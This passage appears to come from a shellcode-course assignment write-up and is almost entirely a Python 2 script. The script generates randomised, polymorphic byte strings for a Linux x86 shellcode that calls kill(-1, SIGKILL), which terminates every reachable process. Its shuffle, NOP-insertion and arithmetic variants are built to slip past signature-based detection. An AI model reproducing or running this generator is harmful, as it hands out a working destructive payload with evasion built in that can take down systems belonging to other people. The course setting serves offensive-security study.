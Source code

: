     # NOT* be considered in the SLAE assignment solutions.

    dl_value = randint(1, 255);
    ax_value = n * dl_value;

    val = socket.htons(ax_value);   # now the value is in network byte order
                                    # like the way it would be stored into
                                    # the stack

    hex_val = format(val, 'x');
    mov_ax = "\\x66\\xb8\\x"+hex_val[0:2]+"\\x"+hex_val[2:4];
    mov_dl = "\\xb2\\x"+format(dl_value, 'x');
    div_dl = "\\xf6\\xf2";

    code = mov_ax+mov_dl+div_dl;

    if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;


def create_add_shellcode():
    r1=randint(1, 36);
    r2=randint(1, 8);

    sc="\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x"+'{:02x}'.format(r1)+"\\x80\\xc1\\x"+'{:02x}'.format(37-r1)+"\\xb0\\x"+'{:02x}'.format(r2)+"\\x04\\x"+'{:02x}'.format(9-r2)+"\\x4b\\xcd\\x80";
    return sc;

def main(argv):
    shellcode="";

    try:
        opts, args=getopt.getopt(argv, "hsnNm", ["help", "shuffle", "nop", "nop-equivalent", "math"])
    except getopt.GetoptError:
        help()
        sys.exit(1)

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-A', '--add'):
            shellcode=create_add_shellcode()
        elif opt in ('-s', '--shuffle'):
            shellcode=kill_shuffle()
        elif opt in ('-n', '--nop'):
            shellcode=kill_nop_dope()
        elif opt in ('-N', '--nop-equivalent'):
            shellcode=kill_nop_super_dope()
        elif opt in ('-m', '--math'):
            shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";

    print "Shellcode: ", shellcode
    print "Length: ", len(shellcode)/4

if __name__ == "__main__":
    main(sys.argv[1:])


{%endhighlight%}
